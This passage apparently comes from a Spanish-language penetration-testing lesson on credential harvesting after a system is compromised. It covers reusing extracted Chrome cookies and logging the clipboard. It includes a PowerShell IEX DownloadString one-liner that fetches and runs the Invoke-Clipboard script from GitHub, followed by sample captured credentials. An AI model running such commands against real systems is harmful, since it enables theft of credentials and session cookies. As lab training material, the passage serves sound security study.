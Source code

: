 ```r

]

[*] Finished Google Chrome extraction.

[*] Done.
```

Ahora podemos usar esta cookie con cookie-editor como hicimos con Firefox.

**Nota:** Cuando copies/pegues el contenido de una cookie, asegúrate de que el valor sea una sola línea.

---

## Clipboard

En muchas compañías, los administradores de redes usan gestores de contraseñas para almacenar sus credenciales y copiar y pegar contraseñas en formularios de inicio de sesión. Como esto no implica `typing` las contraseñas, el registro de teclas no es efectivo en este caso. El `clipboard` proporciona acceso a una cantidad significativa de información, como el pegado de credenciales y tokens de 2FA, así como la posibilidad de interactuar directamente con el clipboard de la sesión RDP.

Podemos usar el script [Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1) para extraer datos del clipboard del usuario. Inicia el registro emitiendo el siguiente comando.

### Monitor the Clipboard with PowerShell

```r
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
PS C:\htb> Invoke-ClipboardLogger
```

El script comenzará a monitorear las entradas en el clipboard y las presentará en la sesión de PowerShell. Necesitamos ser pacientes y esperar hasta capturar información sensible.

### Capture Credentials from the Clipboard with Invoke-ClipboardLogger

```r
PS C:\htb> Invoke-ClipboardLogger

https://portal.azure.com

Administrator@something.com

Sup9rC0mpl2xPa$$ws0921lk
```

**Nota:** Las credenciales de usuario se pueden obtener con herramientas como Mimikatz o un keylogger. Los C2 Frameworks como Metasploit contienen funciones integradas para el registro de teclas.

---